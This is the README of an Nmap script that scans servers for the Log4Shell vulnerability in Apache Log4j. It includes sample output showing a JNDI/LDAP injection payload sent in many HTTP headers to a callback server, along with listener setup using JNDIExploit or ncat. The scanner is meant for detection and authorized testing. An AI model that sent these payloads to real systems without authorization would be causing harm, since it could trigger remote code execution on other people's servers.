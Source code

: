 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.1 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   (!) Sended payload ${jndi:ldap://172.17.42.1:1389/log4shell/127.0.0.1/8080} using HTTP headers:
    |   
    |    - X-Api-Version (200)
    |    - User-Agent (200)
    |    - Cookie (200)
    |    - Referer (200)
    |    - Accept-Language (200)
    |    - Accept-Encoding (200)
    |    - Upgrade-Insecure-Requests (200)
    |    - Accept (200)
    |    - upgrade-insecure-requests (200)
    |    - Origin (200)
    |    - Pragma (200)
    |    - X-Requested-With (200)
    |    - X-CSRF-Token (200)
    |    - Dnt (200)
    |    - Content-Length (200)
    |    - Access-Control-Request-Method (200)
    |    - Access-Control-Request-Headers (200)
    |    - Warning (200)
    |    - Authorization (200)
    |    - TE (200)
    |    - Accept-Charset (200)
    |    - Accept-Datetime (200)
    |    - Date (200)
    |    - Expect (200)
    |    - Forwarded (200)
    |    - From (200)
    |    - Max-Forwards (200)
    |    - Proxy-Authorization (200)
    |    - Range, (200)
    |    - Content-Disposition (200)
    |    - Content-Encoding (200)
    |    - X-Amz-Target (200)
    |    - X-Amz-Date (200)
    |    - Content-Type (200)
    |    - Username (200)
    |    - IP (200)
    |    - IPaddress (200)
    |    - Hostname (200)
    |   
    |_  Inspect the callback server (172.17.42.1:1389) or web-application (127.0.0.1:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/feihong-cs/JNDIExploit)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query (log4shell/{target host}/{target port})

    [+] Received LDAP Query: log4shell/127.0.0.1/8080
    [!] Invalid LDAP Query: log4shell/127.0.0.1/8080

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -v -k -e /bin/true -l 1389

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
